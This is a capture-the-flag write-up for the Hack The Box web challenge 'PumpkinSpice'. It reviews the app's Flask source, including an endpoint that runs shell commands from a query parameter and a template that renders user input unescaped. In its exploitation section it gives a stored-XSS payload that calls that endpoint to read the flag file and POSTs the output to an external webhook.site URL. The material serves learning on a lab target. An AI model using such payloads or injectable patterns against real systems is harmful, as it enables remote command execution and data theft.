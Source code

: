 ```yaml
---
title: PumpkinSpice - Hack The Box
date: 2024-12-31
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# PumpkinSpice

![PumpkinSpice - Thumbnail](/ctf/hack-the-box/challenges/web/pumpkin-spice/thumbnail.svg){style="width: 100%; max-width: 400px; display: block; margin: 0 auto;"}

## Challenge Description

In the realm of cyberspace, a hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister
Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, get ready to exploit
this spectral weakness

## Challenge Overview

This challenge presents a web application called **Pumpkin Spice**, where users can input their address to "receive a
free treat." The application has multiple endpoints for interacting with the server. Our goal is to exploit
vulnerabilities in the application to retrieve the flag.

![PumpkinSpice - Overview](/ctf/hack-the-box/challenges/web/pumpkin-spice/overview.png)

## Code review

The application uses **Flask** as its backend framework. The backend code is straightforward and is contained in a
single file, `app.py`.

```python
import subprocess
import time
from threading import Thread

from flask import Flask, request, render_template

app = Flask(__name__)

addresses = []


def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/addresses", methods=["GET"])
def all_addresses():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    return render_template("addresses.html", addresses=addresses)


@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")

    if not address:
        return render_template("index.html", message="No address provided")

    addresses.append(address)
    Thread(target=start_bot, ).start()
    return render_template("index.html", message="Address registered")


@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

The website has 4 endpoints:

- `/` - The main page where we can input our address
- `/addresses` - The page where we can see all the addresses that have been inputted
- `/add/address` - The endpoint to add an address
- `/api/stats` - The endpoint to run a command

The vulnerability is in the `/api/stats` endpoint. This endpoint allows us to run a command on the server. The command
is passed as a query parameter `command`. The command is executed using the `subprocess.check_output` function. This
function is used to run a command and return its output. But the `/api/stats` endpoint is only accessible from
localhost.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="lean">
    <title>🎃 Pumpkin Spice 🎃</title>
</head>
<body>
<h1>System stats:</h1>
<p id="stats"></p>
<h1>Addresses:</h1>
{% for address in addresses %}
<p>{{ address|safe }}</p>
{% endfor %}
<script src="/static/js/script.js"></script>
</body>
</html>
```

The HTML code above is the `addresses.html` file. This file is used to display all the addresses that have been inputted
by the user. The addresses are displayed using a for loop. The `address|safe` filter is used to tell **Jinja** that the
address is safe and should not be escaped. That means that the content of the address variable will be rendered exactly
as it is, without additional HTML escaping. This allows any HTML or JavaScript included in the address to be displayed
or executed directly in the browser.

This is a classic example of a **Cross-Site Scripting (XSS)** vulnerability. An attacker can input a malicious script
as an address, and when the address is displayed on the page, the script will be executed in the context of the user's
browser.

## Exploitation - XSS

To exploit this vulnerability, we need to input a malicious script as an address. The script will be executed when the
address is displayed on the page. We can use a script that sends a request to the `/api/stats` endpoint with a command
to read the flag file. And them send the output to a `webhook.site` endpoint.

```html

<script>
    fetch("/api/stats?command=cat+/flag*")
        .then(async data => {
            fetch("https://webhook.site/your-webhook-id", {
                method: "POST",
                body: await data.text(),
            })
        })
</script>
```

After inputting the script as an address, we can see the flag in the `webhook.site` endpoint.

![PumpkinSpice - Flag](/ctf/hack-the-box/challenges/web/pumpkin-spice/flag.png)

We've successfully exploited the vulnerability and retrieved the flag.

<ChallengeCard
    challengeType="web"
    challengeName="PumpkinSpice"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/625"
/>

## References

- [Webhook.site](https://webhook.site)

